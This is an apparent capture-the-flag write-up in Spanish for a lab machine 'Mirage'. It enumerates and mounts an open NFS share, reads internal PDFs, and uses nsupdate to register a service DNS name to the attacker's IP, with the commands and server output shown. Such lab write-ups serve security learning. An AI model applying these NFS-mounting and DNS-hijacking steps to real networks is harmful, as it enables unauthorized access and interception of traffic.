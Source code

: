 # Fase de Enumeracion

Como vemos que el servidor tiene disponible el servicio `RPC` vamos a comenzar chequeando si existen recursos a los cuales poder acceder!!

```bash
showmount -e DC01
```

<img width="1920" height="129" alt="image" src="https://github.com/user-attachments/assets/c8f95553-0381-439f-8e31-cf495255030e" />


vemos el recurso compartido `/MirageReports` el cual esta disponible para todos `(everyone)` por lo que podemos montarnos en local el recurso y examinarlo

```bash
mkdir -p /mnt/MirageReports
```

```bash
mount -t nfs DC01:/MirageReports /mnt/MirageReports
```

<img width="1920" height="302" alt="image" src="https://github.com/user-attachments/assets/dc94e25d-8084-41e9-8f5c-10245207e112" />

ya montado lo examinamos y nos conseguimos con archivos `.pdf`

<img width="1920" height="225" alt="image" src="https://github.com/user-attachments/assets/8e33a5cf-d49c-4500-b6b0-4be8eec50ab4" />

ahora chequeamos que informacion tienen estos archivos

<img width="1920" height="971" alt="image" src="https://github.com/user-attachments/assets/9299cd6b-5718-49b5-b177-833c9ef7d8c2" />

por un lado vemos un informe para la migracion desde el protocolo `NTLM` a `Kerberos`

<img width="1920" height="971" alt="image" src="https://github.com/user-attachments/assets/84927b31-0273-4bbe-9800-919000cb9a98" />

en el segundo archivo `.pdf` vemos que se reporta que no esta disponible a nivel `dns` `nats-svc.mirage.htb`

Si leemos este ultimo informe se especifica que se permite actualizaciones dinámicas no seguras, asi que vamos a intentar registrar `nats-svc` bajo nuestra propia `ip`

### Actualizacion Dinamica DNS Maliciosa

```bash
nsupdate -d
```
```bash
> server 10.10.11.78
> update add nats-svc.mirage.htb 3600 A 10.10.14.128
> update add nats-svc.mirage.htb 3600 A 10.10.14.128
> send
Reply from SOA query:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id:  57639
;; flags: qr aa ra; QUESTION: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 2
;; QUESTION SECTION:
;nats-svc.mirage.htb.		IN	SOA

;; AUTHORITY SECTION:
mirage.htb.		3600	IN	SOA	dc01.mirage.htb. hostmaster.mirage.htb. 151 900 600 86400 3600

;; ADDITIONAL SECTION:
dc01.mirage.htb.	3600	IN	A	10.10.11.78
dc01.mirage.htb.	3600	IN	AAAA	dead:beef::a9c9:1d52:f379:764d

Found zone name: mirage.htb
The primary is: dc01.mirage.htb
```
